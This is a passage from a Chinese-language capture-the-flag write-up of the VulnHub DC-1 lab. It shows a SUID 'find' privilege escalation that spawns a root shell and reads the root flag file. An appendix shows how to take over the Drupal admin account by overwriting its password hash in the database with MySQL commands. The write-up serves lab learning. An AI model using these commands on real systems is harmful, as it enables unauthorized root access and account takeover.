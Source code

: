 看到 find 没有,今天就让我提个痛快
```bash
find . -exec /bin/sh \; -quit
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/15.png)

```
ls /root
cat /root/thefinalflag.txt
```

提权成功,感谢靶机作者 @DCUA7,查看最终 flag

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/16.png)

---

# 补充

在 flag3 跑 hashcat 时,如果跑不出密码,除了 google 以外还有2种方式登录 admin 账号
- 直接数据库修改 Drupal users 表
- 通过 drush 修改 admin 用户的密码

**直接数据库修改 Drupal users 表**

我都爆出了 Fred 的明文 MyPassword 了,那我直接把 admin 的改成和 Fred 的一样不就行了
```bash
mysql -u dbuser -p
use drupaldb;
update users set pass='$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg' where name='admin';
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC1/17.png)
